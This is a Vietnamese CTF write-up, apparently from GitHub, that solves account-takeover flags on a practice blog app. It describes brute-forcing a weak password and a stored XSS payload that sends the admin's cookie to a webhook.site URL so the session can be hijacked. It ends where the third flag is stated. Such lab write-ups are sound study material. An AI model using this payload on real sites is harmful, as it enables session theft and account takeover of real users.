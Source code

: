 => Chỉ có những tài khoản có quyền mới có thể xem được.

= Chức năng `Create Blog` thấy có 2 trường là Title, Content và có 1 trường chọn tick `Make this post private`

=> SQLi, StoreXSS

*Solution:*

***Flag1: Bạn sẽ nhận được FLAG nếu đăng nhập thành công vào tài khoản Harry.***

-> `Account TakeOver (ATO)` : xảy ra do Dùng mật khẩu mặc định/ yếu, Brute force login, SQLi bypass login, Lỗi session management (cookie có thể đoán được)

- Bài này thấy trang Register và Login không có dấu hiệu của SQLi, StoreXSS nên có thể là Spray Directory Attack. Dùng weakpassword mà mọi người hay dùng để brute force thì thấy password là `iloveyou` và gmail là `harry@cookiehanhoan.org` thì thấy đăng nhập thành công.

***Flag2: Bạn sẽ nhận được FLAG nếu đăng nhập thành công vào tài khoản Admin.***

-> `Account TakeOver (ATO)` : xảy ra do Dùng mật khẩu mặc định/ yếu, Brute force login, SQLi bypass login, Lỗi session management (cookie có thể đoán được)

= Bài này có 2 cách để làm:

1. Tìm được email và password của admin

2. Lấy được cookie của admin.

Cách khả dụng là Lấy được cookie của admin bằng cách lợi dụng cái feedback admin sẽ đọc sau mỗi 3 phút. Để đánh cắp được cookie thì sử dụng StoreXSS.

- Sử dụng `<img src/onerror=alert(1)>` (img là thẻ up ảnh, thường src là 1 đường dẫn ảnh nhưng ở đây đường dẫn không hợp lệ => có lỗi, mỗi khi có onerror thì sẽ hiện alert(1)). Sau khi chèn vậy, chưa thấy có gì thay đổi nhưng khi ấn vào `Inspect` và vào chỗ `/feedback/2` , nhấp vào thấy "nổ".

<img width="547" height="322" alt="image" src="https://github.com/user-attachments/assets/2e40471b-eb41-4b40-ac70-a3939e7cf370" />
<img width="626" height="239" alt="image" src="https://github.com/user-attachments/assets/272d8262-89ae-4db2-bbd3-5e14198af5e0" />

=> Xác định được `Attack surface` (chỗ nhập dữ liệu được render lại ra trình duyệt) và thấy nó không bị filter (mã hóa ..) 

=> Tồn tại StoreXSS. Bây giờ phải viết payload sao cho mỗi lần up feedback, admin đọc được chúng ta đều lấy được feedback. Chúng ta sẽ dùng `Fetch API` để mỗi lần admin nhấp vào, nó sẽ tự gửi request từ trình duyệt nạn nhân đến 1 URL bên ngoài (ở đay mình sẽ cố gắng dùng `Webhook.site`)

```
<script>fetch(`https://webhook.site/32015b98-7f6e-46ec-a2d4-b27f59e2a33e?cookie=${document.cookie}`)</script>
```
= Nó trả về session:

<img width="1917" height="915" alt="image" src="https://github.com/user-attachments/assets/649a849f-72e0-4dc9-9a70-59871eada71c" />

= Thay giá trị session này vào cookie, đăng nhập được vào tài khoản admin và có flag:

<img width="750" height="637" alt="image" src="https://github.com/user-attachments/assets/7dbf2ff6-29c1-404b-8bd5-c8ddc1f5301c" />

***Flag3: FLAG được ẩn trong một bài viết của admin với trạng thái là private.***
